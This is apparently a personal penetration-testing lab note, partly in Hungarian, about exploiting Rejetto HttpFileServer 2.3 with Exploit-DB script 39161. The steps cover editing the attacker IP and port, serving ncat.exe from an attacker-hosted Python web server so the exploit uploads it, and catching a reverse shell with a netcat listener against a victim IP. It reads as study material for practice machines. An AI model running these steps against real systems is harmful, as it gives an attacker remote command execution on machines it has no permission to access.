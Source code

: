 # HFS HttpFileServer 2.3 (Rejetto)
## manual exploitation
* source: https://systemweakness.com/manual-privilege-escalation-rejetto-http-file-server-windows-rce-1148a025c15a
* download ncat.exe from github (we need to host it on the attack machine and the exploit will upload it to the victim machine)
  * https://github.com/andrew-d/static-binaries/blob/master/binaries/windows/x86/ncat.exe
* $ searchsploit -m 39161.py
* $ nano 39161.py
  * change "ip_addr" to tun0
  * "localport" can be leaved at "443" or can be changed to arbitrary port (this will be the reverse shell port that nc will get connection on)
* $ mv ncat.exe nc.exe
  * rename netcat exe (in the exploit it is nc.exe, at github repo it is ncat.exe)
* $ python -m http.server 80
  * we need it so the exploit can upload the ncat.exe to the victim
  * if we want to change it we probably has to change the commands in the exploit as well (to the appropriate port that we gave to python)
* $ sudo nc -nvlp 443
  * ha 443-at akarunk hasznalni, akkor kell a 'sudo' mindenkepp ele!!!!!
  * ha masik portot akkor nem feltetlen (de akkor meg at kell irni azt az exploit-ban!!)
* $ python2.7 39161.py 10.10.10.2 80
  * ip and port of victim machine
  * python2.7-el mukodott csak (a tobbi python hibat dobott)

